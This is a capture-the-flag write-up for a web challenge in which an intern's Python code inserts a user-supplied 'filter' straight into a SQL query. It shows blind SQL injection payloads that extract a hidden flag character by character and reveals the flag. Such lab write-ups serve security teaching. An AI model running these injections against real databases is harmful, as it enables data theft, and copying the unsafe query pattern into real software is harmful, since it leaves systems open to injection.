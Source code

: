 # The vibes are off - web

## Challenge

Sysadmins have reported that a large number of errors logs started to populate the backend database during the election. Can you find out how the attackers were hacking the database? I feel like an intern is behind this...

## Solve

Scanning the source code we can see our interns code in `database.py`:

```py
def get_citizens(self, filter):
    conn = self.get_connection()
    try:
        cursor = conn.cursor()
        # NOTE: This is too complicated. AI gave me a simpler query to use and I added some flexibility to the query. From: 10x Intern
        # cursor.execute("""
        #     SELECT c.citizen_id, c.name, c.address, c.dob,
        #            CASE WHEN v.citizen_id IS NOT NULL THEN 1 ELSE 0 END as has_voted
        #     FROM citizens c
        #     LEFT JOIN votes v ON c.citizen_id = v.citizen_id
        #     ORDER BY c.name
        # """)

        if "attach" in filter.lower():
            raise Exception("CTF Note: You don't need 'ATTACH' to solve the challenge")

        cursor.execute(f"""
            SELECT 
                c.citizen_id, 
                c.name, 
                c.address, 
                c.dob,
                COUNT(v.citizen_id) > 0 AS has_voted
            FROM citizens c
            LEFT JOIN votes v ON c.citizen_id = v.citizen_id
            {filter}
            GROUP BY c.citizen_id, c.name, c.address, c.dob
            ORDER BY c.name
        """)
```

The `filter` parameter is directly inserted into the query and is thus vulnerable to injection.

We can see how we can specify the `filter` parameter through the `/citizens` API endpoint in `admin_api.py`:

```py
@admin_bp.route("/citizens", methods=["POST"])
@require_polling_key
def get_citizens():
    """
    Retrieve list of all citizens with their voting status.
    """

    data = request.get_json()
    filter = ""
    if data:
        filter = data.get("filter")

    try:
        db = Database()
        citizens = db.get_citizens(filter)

        return jsonify({
            "citizens": citizens,
            "total": len(citizens)
        })

    except Exception as e:
        return jsonify({"error": f"Failed to retrieve citizens: {str(e)}"}), 500
```

We can see in `database_init.sql` that the flag is stored in a table named `the_vibes_are_off_flag`. Experimenting with different injections in the `filter` parameter, the attack vector I found was a boolean-based blind SQL attack.

Since we know the flag begins with `cysea`, we can confirm the query behaves as expected by checking if the first character is equal to `c`:

```json
{
  "filter": "WHERE (SELECT SUBSTR(the_vibes_are_off_flag, 1, 1) FROM flag) = 'c'"
}
```

`filter` is inserted into the source code to create the query: 

```sql
SELECT 
    c.citizen_id, 
    c.name, 
    c.address, 
    c.dob,
    COUNT(v.citizen_id) > 0 AS has_voted
FROM citizens c
LEFT JOIN votes v ON c.citizen_id = v.citizen_id
WHERE (SELECT SUBSTR(the_vibes_are_off_flag, 1, 1) FROM flag) = 'c'
GROUP BY c.citizen_id, c.name, c.address, c.dob
ORDER BY c.name;
```

The query evaluates to true as we expect and we can see results are returned:

vibes

If we change the letter to anything but `c`, empty results are returned since the query evaluates to false:

vibes1

So, if we brute force this for every letter and number, we can slowly start to build the flag. I achieved this by using the Intruder in BurpSuite and creating a basic alphanumeric list, then sending multiple requests and filtering responses by length to identify matched characters.

- First we brute force the overall length of the flag and find this `filter` injection evaluates to true:

```SQL
"WHERE (SELECT LENGTH(the_vibes_are_off_flag) FROM flag) = 47"
```

The flag is 47 characters long. Fortunately, portions of the flag are known (i.e `cysea{...}`) and others became guessable as the flag revealed itself. It took around 20 minutes for me to build the full flag:

vibes3.png

We can see in the image above that the last character in the flag was a `2`, since the length was greater than all other characters inserted into the query.

`cysea{sqli_in_2025_is_still_a_thing_bec66fc8a2}`










